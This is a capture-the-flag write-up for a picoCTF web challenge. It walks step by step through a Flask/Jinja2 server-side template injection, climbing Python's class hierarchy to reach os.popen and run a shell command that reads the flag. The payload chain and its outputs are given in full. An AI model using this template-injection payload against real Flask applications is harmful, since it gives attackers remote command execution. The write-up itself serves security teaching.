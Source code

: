 # Flaskcards and Freedom - Web

From the hints on this challenge, we need to get RCE and we can get that by template injection.

First we run
```
g.__class__``` This returns a class object:
> <class 'flask.ctx._AppCtxGlobals'>
```

Then we do:
```
g.__class__.__mro__
```
This returns a list of classes that ```g.__class__``` is inheriting from(mro stands for Method Resolution Order)
> (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Then we need the second index there which will be [1]. After that we do:
```g.__class__.__mro__[1].__subclasses__()```
which will return a list of classes that inherit from ```<class 'object'>```
>[<class 'itertools.compress'>, <class 'formatteriterator'>, <class 'logging.Filter'>, ...] 

Then we choose for example index 14 which is a dummy class (just a normal class we can use, we could have used most other classes). By running this command 
```g.__class__.__mro__[1].__subclasses__()[14]```
We get
><class 'tarfile.TarIter'>

Then we run ```g.__class__.__mro__[1].__subclasses__()[14].__init__``` which will return a function that creates a new tarfile object
><function TarIter.__init__ at 0x7fd68213fb70>

After that, we run this command ```g.__class__.__mro__[1].__subclasses__()[14].__init__.__globals__``` which will return a list of all globals functions available in the user's scope
> {'TarFile': <class 'tarfile.TarFile'>, 'open': <bound method TarFile.open of <class 'tarfile.TarFile'>>, ...

Then we need to choose the sys module from the result above because the sys module contains the os module which we can use to open a file in Python. Once we have chosen the os module, we can use the popen and read function to read the flag file. The final command looks like this:
```{{ g.__class__.__mro__[1].__subclasses__()[14].__init__.__globals__['sys'].modules['os'].popen("cat flag").read() }}```

This gives us the flag: picoCTF{R_C_E_wont_let_me_be_04eedee8}
